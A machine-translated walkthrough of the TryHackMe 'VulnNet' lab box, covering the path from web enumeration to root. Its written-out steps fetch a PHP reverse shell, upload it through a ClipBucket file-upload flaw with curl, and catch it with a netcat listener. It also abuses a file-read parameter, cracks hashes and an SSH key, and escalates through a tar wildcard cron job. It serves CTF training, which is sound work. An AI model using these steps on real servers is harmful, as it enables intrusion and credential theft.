# VulnNet Tryhackme 报道

> 原文：<https://infosecwriteups.com/vulnnet-tryhackme-writeup-3a5bd68b0959?source=collection_archive---------1----------------------->

## 作者 Shamsher khan 这是一篇关于 Tryhackme room“VulnNet”的文章



[https://www.tryhackme.com/room/vulnnet1](https://www.tryhackme.com/room/vulnnet1)

**房间链接:**[https://www.tryhackme.com/room/vulnnet1](https://www.tryhackme.com/room/vulnnet1)
**注:此房免费**

# 列举

在我们开始枚举盒子之前，将下面一行添加到您的`/etc/hosts`文件中。

> **echo " 10 . 10 . 236 . 130 vulnnet . thm ">>/etc/hosts**

# 列举



有`2`个开放端口。端口`22`用于`SSH`，端口`80`用于 web 服务器。我们从列举 web 服务器开始。浏览到`http://vulnnet.thm/`我们发现如下页面:



让我们检查 web 页面的源代码



我们看到两个奇怪的 JavaScript 文件。

现在我们使用 [LinkFinder](https://github.com/GerbenJavado/LinkFinder) 来查找 JavaScript 文件中的链接。运行以下命令来查找隐藏的链接:

```
git clone [https://github.com/GerbenJavado/LinkFinder.git](https://github.com/GerbenJavado/LinkFinder.git)pip3 install -r requirements.txt
python3 linkfinder.py -d -i [http://vulnnet.thm/](http://vulnnet.thm/) -o cli
```



您现在应该可以找到以下链接:

```
[http://broadcast.vulnnet.thm](http://broadcast.vulnnet.thm)
http://vulnnet.thm/index.php?referer=
```

将`broadcast.vulnnet.thm`添加到您的`/etc/hosts`文件中。为此，请运行:

```
echo "<box_ip>   broadcast.vulnnet.thm" >> /etc/hosts
```

浏览至`http://broadcast.vulnnet.thm`提示基本认证登录屏幕。我们还没有证书。但是，我们可以滥用 URL 中的`referer`参数。您可以通过运行以下命令读取机器`/etc/passwd`的内容:



因为我们处理的是 Apache web 服务器，所以我们必须找到`broadcast.vulnnet.thm` web 服务器的`.htpasswd`。默认情况下，您可以在`/etc/apache2/sites-enabled/000-default.conf`中查看网络配置。运行以下命令读取该文件:



你可以看到`.htpasswd`的位置是:`/etc/apache2/.htpasswd`。运行以下命令查看`/etc/apache2/.htpasswd`文件的内容。



在`/etc/apache2/.htpasswd`文件中，您会发现下面的用户/散列组合



在这里，我们破解了哈希并获得了开发者用户的密码

浏览至`http://broadcast.vulnnet.thm/`并填写凭证。您现在应该会看到以下页面:



# 剪辑桶漏洞利用

广播站点正在运行 ClipBucket。 [ClipBucket](https://clipbucket.com/) 用于构建自己的视频流软件。ClipBucket 正在运行 4.0 版。该版本容易受到以下[漏洞利用](https://www.exploit-db.com/exploits/44250)的攻击。此漏洞是一个未经验证的文件上传漏洞。通过运行以下命令获得 PHP 反向 shell

```
wget [https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
```



在您喜欢的代码编辑器中打开该文件，并将 IP 地址更改为您的本地攻击机器，并将端口号更改为 1234。现在，您可以使用下面的命令将 PHP shell 上传到服务器。

```
curl -F "file=@php-reverse-shell.php" -F "plupload=1" -F "name=php-reverse-shell.php" [http://broadcast.vulnnet.thm/actions/photo_uploader.php](http://broadcast.vulnnet.thm/actions/photo_uploader.php) -u developers:<REDACTED>
```



浏览到`http://broadcast.vulnnet.thm/files/`找到目录列表。您的 shell 驻留在`photos`目录中。在这个目录中有一个带有当前日期的目录。在本地攻击机器上，运行以下命令:



启动 netcat 监听器

```
nc -lvp 1234
```



在浏览器中打开 shell，您应该会收到一个连接。运行以下命令来改进您的 shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL+Z
stty raw -echo;fg
ENTER
ENTEng styleR
```

# 用户标志

现在我们已经在这个系统中站稳了脚跟，我们需要提升我们的特权，找到`user.txt`旗帜。当检查`/var/backups`目录时，我们找到了`ssh-backup.tar.gz`文件。在服务器上运行以下命令



现在，您应该可以在屏幕上看到私钥的内容。复制这些行，并将它们保存在本地机器上的一个文件中。将这个文件命名为`id_rsa`。SSH 私有密钥受密码保护。我们可以通过使用`ssh2john.py`来尝试暴力破解私钥的密码。`ssh2john.py`将私钥转换成可由`john`强制执行的哈希。运行以下命令以暴力破解私钥的密码:



过一会儿，您应该会找到私钥的密码。通过运行以下命令，使用 SSH 登录:

ssh-I id _ RSA 2 server-management @ vulnnet . thm



提供密码，现在您应该以`server-management`用户的身份登录。`user.txt`标志位于`/home/server-management/user.txt`

# 根标志

最后一步是找到`root.txt`标志。在`/etc/crontab`有一个 Cron 作业。`root`用户每 30 秒执行一次`/var/opt/backupsrv.sh`脚本。脚本的内容如下所示:

在`/var/opt/`中，我们看到一个名为`backupsrv.sh`的文件



这里存在一个通配符漏洞。每当您使用带有通配符的`tar`时，您可以创建被执行的文件。运行以下命令以获得对`root`用户的访问权限



你可以在:
**LinkedIn:-**[https://www.linkedin.com/in/shamsher-khan-651a35162/](https://www.linkedin.com/in/shamsher-khan-651a35162/)
**Twitter:-**[https://twitter.com/shamsherkhannn](https://twitter.com/shamsherkhannn)
**Tryhackme:-**[https://tryhackme.com/p/Shamsher](https://tryhackme.com/p/Shamsher)


如需更多演练，请在出发前继续关注…
…

**点击这里加入电报**

[](https://t.me/tryhackme_writeups)

[https://t.me/tryhackme_writeups](https://t.me/tryhackme_writeups)

访问我的其他演练:-

感谢您花时间阅读我的演练。如果你觉得它有帮助，请点击👏按钮👏(高达 40 倍)并分享
它来帮助其他有类似兴趣的人！+随时欢迎反馈！